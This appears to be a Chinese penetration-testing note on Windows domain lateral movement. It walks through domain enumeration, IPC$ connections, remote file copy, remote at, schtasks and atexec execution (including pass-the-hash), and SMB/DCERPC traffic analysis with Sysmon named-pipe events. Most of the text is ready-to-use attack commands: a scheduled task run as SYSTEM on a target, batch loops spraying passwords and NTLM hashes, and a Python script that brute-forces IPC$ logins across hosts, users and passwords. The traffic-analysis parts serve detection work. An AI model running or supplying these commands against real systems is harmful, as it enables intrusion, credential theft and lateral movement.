





1.查域管
	
	net group "domain admins" /domain



net group domain admins domain.pcap:

	No 22   QueryGroupInfo response




2.查域控机器名

	net group "domain controllers" /domain


net group domain controllers domain.pcap:

	No 22   QueryGroupInfo response


3.

[seatbelt](https://github.com/GhostPack/Seatbelt)

	Seatbelt.exe -group=user -outputfile=".\1.txt"

	Seatbelt.exe all > env.txt

会生成非常详尽的主机取证信息；

工具介绍：

[你值得拥有的 PowerShell 内网渗透工具包—— GhostPack](http://www.myzaker.com/article/5d60a0a18e9f093560582c86)

4.

[BloodHound](https://github.com/BloodHoundAD/BloodHound)

工具介绍：

[红蓝对抗之Windows内网渗透（转）](https://www.cnblogs.com/backlion/p/13425035.html)

## IPC渗透

建立net use连接：

	net use \\server\ipc$ "password" /user:username        #工作组
	net use \\server\ipc$ "password" /user:domain\username #域用户

	net use \\10.10.40.55\ipc$ "Passw0rd" /user:lmrsec\tony #域用户


**net use 只有关闭防火墙才可以建立连接。(可能是端口过滤)**

删除共享：

	net use  \\10.10.40.55\ipc$ /del 

**net use可以看别人机器的共享，net share看自己共享的东西**

### IPC相关报错

建立IPC常见的错误代码

	（1）5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限
	（2）51：网络问题，Windows 无法找到网络路径
	（3）53：找不到网络路径，可能是IP地址错误、目标未开机、目标Lanmanserver服务未启动、有防火墙等问题
	（4）67：找不到网络名，本地Lanmanworkstation服务未启动，目标删除ipc$
	（5）1219：提供的凭据和已存在的凭据集冲突，说明已建立IPC$，需要先删除
	（6）1326：账号密码错误
	（7）1792：目标NetLogon服务未启动，连接域控常常会出现此情况
	（8）2242：用户密码过期，目标有账号策略，强制定期更改密码

建立IPC失败的原因

	（1）目标系统不是NT或以上的操作系统
	（2）对方没有打开IPC$共享
	（3）对方未开启139、445端口，或者被防火墙屏蔽
	（4）输出命令、账号密码有错误

## smb协议流量
 
1.tcp三次握手

2.客户端发送一个SMB negotiate请求数据包，列出它所支持的所有SMB协议版本，服务器收到请求信息后响应请求，并列出希望使用的协议版本。如果没有可使用的协议版本则返回0XFFFFH，结束通信。





3.协议确定后，客户端进程向服务器发起一个用户或共享的认证，这个过程是通过发送Session Setup请求数据包实现的。客户端发送一对用户名和密码或一个简单密码到服务器，然后服务器通过发送一个Session Setup应答数据包来允许或拒绝本次连接。


展开SPN节点：


建立smb连接成功：


可以观察到 SMB Header 中 NT Status 为 ```STATUS_SUCCESS```，Command 为 Session Setup；且 Session Setup Response中Blob Length >0;

使用错误密码smb建立连接失败：


可以观察到 SMB Header 中 NT Status 为 ```STATUS_LOGON_FAILURE```；且 Session Setup Response中 Blob Length =0;

4.建立Tree：


建立Tree 成功：



可以观察到 SMB Header 中 NT Status 为 ```STATUS_SUCCESS```，Command 为 Tree Connect;

展开 Access Mask 节点，里面记录了各种权限相关：


pcap见```net use create success.pcap```。

### copy流量分析（Lateral movement）

域环境需要先建立域管权限的IPC，本地管理员不行。

实战中常在跳板机使用此命令，向55机器c盘下拷贝文件：

	copy a.bat \\10.10.40.55\c$


传文件之前一定基于 ```Tree Connect Response```的 NT Status ```STATUS_SUCCESS``` 。

然后请求创建文件：



响应创建文件：


后面的smb流量都是不同的 Command 结合 NT Status ```STATUS_SUCCESS```:


pcap见 ```copy success.pcapng```和```copy fail access denied.pcap```。

### at流量分析（Lateral movement）

**at命令在win7和xp系统还有效；WIN8系统，at 命令已弃用。**

需要以管理员权限运行cmd bypass UAC。

	at \\10.10.40.55 10:10 c:\a.bat 


在 55 上以管理员权限运行 cmd

	at


	schtasks

第一个就是新添加的任务：


查看详情：

	schtasks /query /TN At1 -V


利用schtasks搜索达到at效果：

	schtasks -V |findstr "bat"


at 流量分析：

at过程走的是 ATSVC协议：

request：


response:


pcap见 ```at command add schedule task.pcapng```。

### schtasks流量分析（Lateral movement）

chcp 437


	/TN   taskname     Specifies a name which uniquely
                      identifies this scheduled task.

	/TR   taskrun      Specifies the path and file name of the program to be
                      run at the scheduled time.
                      Example: C:\windows\system32\calc.exe

	/SC   schedule     Specifies the schedule frequency.
                    Valid schedule types: MINUTE, HOURLY, DAILY, WEEKLY,
                    MONTHLY, ONCE, ONSTART, ONLOGON, ONIDLE, ONEVENT.

	/ST   starttime    Specifies the start time to run the task. The time
                   format is HH:mm (24 hour time) for example, 14:30 for
                   2:30 PM. Defaults to current time if /ST is not
                   specified.  This option is required with /SC ONCE.

	/S   system        Specifies the remote system to connect to. If omitted
                    the system parameter defaults to the local system.

	/RL   level        Sets the Run Level for the job. Valid values are
                   LIMITED and HIGHEST. The default is LIMITED.

	/RU  username      Specifies the "run as" user account (user context)
                     under which the task runs. For the system account,
                     valid values are "", "NT AUTHORITY\SYSTEM"
                     or "SYSTEM".
                     For v2 tasks, "NT AUTHORITY\LOCALSERVICE" and
                     "NT AUTHORITY\NETWORKSERVICE" are also available as well

创建计划任务：

	schtasks /create /tn "plugin_update" /tr c:\a.bat /sc once /st 16:32 /S 10.10.40.55 /RU System

用 schtasks 创建的计划任务，用at命令查不到：


登录55 用schtasks查看：

tom用户查看：


管理员用户查看：


查询进程权限：

	schtasks -v|findstr "plugin_update"


流量分析

dcerpc 携带 ntlmssp 认证包进行认证失败(权限不够，非域管，口令正确)：


认证成功：


除此之外在并未发现schtasks create 过程的其他特征，待后续进一步研究。

pcap见```schtasks command add schedule task success.pcapng```和```schtasks command add schedule task failed.pcapng```。

## 使用第三方工具，atexec

[impacket-examples-windows](https://github.com/maaaaz/impacket-examples-windows)

	atexec.exe ./administrator:1234.bmk!@10.10.40.55 "whoami"
	atexec.exe lmrsec/administrator:1234.bmk!@10.10.40.55 "whoami"
	atexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 ./administrator@10.10.40.55 "whoami"

首次执行要输入2次才可以执行成功(需要域管权限)：


域用户权限：


账户口令错误：


流量分析：

dcerpc协议显示调用了相关命名管道（使用atexec.exe和at命令均调用此管道）：


流量包见```atexec.exe rce.pcapng```。

[pipelist.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist)


或使用工具 pipesec.exe：


### 本地事件监控--sysmon

命名管道用于在多个 RAT/Implants 以在机器之间建立 SMB 连接。一些工具将使用命名管道与其他进程中的注入代码进行对话。
Sysmon 会产生一个事件:

	创建命名管道服务器时为EventID 17。
	当客户端连接到命名的 Piper 服务器时为EventID 18。

## 参考资料

渗透测试内部报告.pdf

[关于IPC和PTH用户权限问题](https://ares-x.com/2020/03/10/%E5%85%B3%E4%BA%8EIPC%E5%92%8CPTH%E7%94%A8%E6%88%B7%E6%9D%83%E9%99%90%E9%97%AE%E9%A2%98/)

[如何实现一个Atexec](https://payloads.online/archivers/2020-06-28/1)

[【内网渗透】域横向批量验证at&schtasks&atexec](https://blog.csdn.net/weixin_44032232/article/details/114437051)

## 后记

1.查询域名

	net view /domain


2.查询域内所有计算机

  net view /domain:lmrsec


**如果开启了域网络防火墙，则不能被此命令信息搜集到。**

3.查询加入到域中的所有工作站和服务器(会包含历史加入域已删除的机器)：

	net group "domain computers" /domain


4.SMB（Server Message Block，又称Common Internet File System（CIFS））是由微软开发的一种软件程序级的网络传输协议，主要用来使得一个网络上的机器共享计算机文件、打印机、串行端口和通讯等资源。它也提供认证的行程间通讯机能。它主要用在装有Microsoft Windows的机器上，在这样的机器上被称为Microsoft Windows Network。

5.shctasks

SchTasks.exe 取代了包含在 Windows 早期版本中的工具 At.exe。XP、Vista、Windows7、Windows2003/2008等系统中均可以使用。

win7下计划任务schtasks使用详解及"错误:无法加载列资源"的解决方法:

查看cmd 编码

chcp

如使用 936中文GBK编码的话

schtasks.exe /query 会报错

错误: 无法加载列资源。

调整 936 为 437 美国编码 则可以运行，但是无法打印出非ascii字符。（非ascii字符都变?）

调整方法

chcp 437

6.一点权限的疑问

理论上 at 和schtasks 都需要管理员权限，实际测试，at需要管理员权限。schtasks在不同系统表现不同。

win7 10.10.40.55 lmrsec\tom


win2003 10.10.40.100 lmrsec\tony


其他师傅的实验截图：


创建计划任务主要用于维持权限，另外，没有过uac，就留不了system权限任务，比如抓密码等。

7.批量建立IPC连接：

	FOR /F %%i in (ip.txt) do net use \\%%i\ipc$ "1234.bmk!" /user:administrator #批量检测IP对应明文连接
	FOR /F %%i in (ip.txt) do atexec.exe ./administrator:1234.bmk!@%%i whoami    #批量检测IP对应明文回显版
	FOR /F %%i in (pass.txt) do atexec.exe ./administrator:%%i@10.10.40.55 whoami     #批量检测明文对应IP回显版
	FOR /F %%i in (hash.txt) do atexec.exe -hashes :%%i ./administrator@10.10.40.55 whoami #批量检测HASH对应IP回显版

批量建立连接升级版：

	#net use \\10.10.40.55\ipc$ 1234.bmk! /user:lmrsec\administrator

	#pip install pyinstaller
	#pyinstaller -F 1.py 生成可执行EXE
	#by CSDN AUTHOR:Allen的学习笔记
	import os,time
	ips={
	    '192.168.3.21',
	    '192.168.3.25',
	    '192.168.3.29',
	    '192.168.3.30',
	    '192.168.3.31',
	    '192.168.3.33'
	}
	
	users={
	    'Administrator',
	    'boss',
	    'dbadmin',
	    'fileadmin',
	    'mack',
	    'mary',
	    'vpnadm',
	    'webadmin'
	}
	passs={
	    'admin',
	    'admin!@#45',
	    'Admin12345'
	}
	
	for ip in ips:
	    for user in users:
	        for mima in passs:
	            exec="net use \\"+ "\\"+ip+'\ipc$ '+mima+' /user:lmrsec\\'+user
	            print('--->'+exec+'<---')
	            os.system(exec)
	            time.sleep(1)

